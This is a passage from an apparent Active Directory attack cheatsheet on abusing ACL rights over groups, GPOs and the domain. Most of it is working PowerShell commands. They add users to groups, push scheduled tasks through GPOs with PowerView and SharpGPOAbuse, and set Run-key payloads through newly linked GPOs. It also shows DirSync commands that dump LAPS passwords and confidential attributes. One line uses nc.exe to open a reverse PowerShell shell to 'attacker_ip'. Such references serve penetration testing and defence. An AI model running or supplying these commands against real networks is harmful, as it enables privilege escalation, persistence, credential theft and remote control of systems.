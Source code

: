 #### On a group

**WriteProperty/AllExtendedRights/GenericWrite Self**

With one of this rights we can add a new member to the group

```powershell
net group <target_group> user1 /add
# With PowerView
Add-DomainGroupMember -Identity '<target_group>' -Members 'user1'
```

#### On GPO

**WriteProperty on a GPO**

We can create an "evil" GPO with a scheduled task for example

```powershell
#With PowerView
New-GPOImmediateTask -Verbose -Force -TaskName 'Update' -GPODisplayName 'weakGPO' -Command cmd -CommandArguments "/c net localgroup administrators user1 /add"

#With SharpGPOAbuse
./SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author Administrator --Command "cmd.exe" --Arguments "/c /tmp/nc.exe attacker_ip 4545 -e powershell" --GPOName "weakGPO" 
```

**CreateChild on Policies Cn + WriteProperty on an OU**

It is possible to create a fully new GPO and link it to an existing OU

```powershell
#With RSAT module
New-GPO -Name "New GPO" | New-GPLink -Target "OU=Workstation,DC=domain,DC=local"
Set-GPPrefRegistryValue -Name "New GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /C \\path\to\payload" -Type ExpandString
```

After GPO refresh on the OU's machines, when the machines will restart the payload will be executed

**Manage Group Policy Links**

This section is presented in the Active Directory - Python edition cheatsheet.

#### On the domain/forest

**DS-Replication-Get-Changes + DS-Replication-Get-Changes-All**

We can **DCSync**

**DS-Replication-Get-Changes + DS-Replication-Get-Changes-In-Filtered-Set**

It is possible to realize a **DirSync** attack, as presented [here](https://simondotsh.com/infosec/2022/07/11/dirsync.html).

```powershell
Import-Module ./DirSync.psm1

#Sync all the LAPS passwords in the domain
Sync-LAPS

#Sync a specific LAPS password
Sync-LAPS -LDAPFilter '(samaccountname=<computer$>)'

#Sync confidential attributs
Sync-Attributes -LDAPFilter '(samaccountname=user1)' -Attributes unixUserPassword,description
```
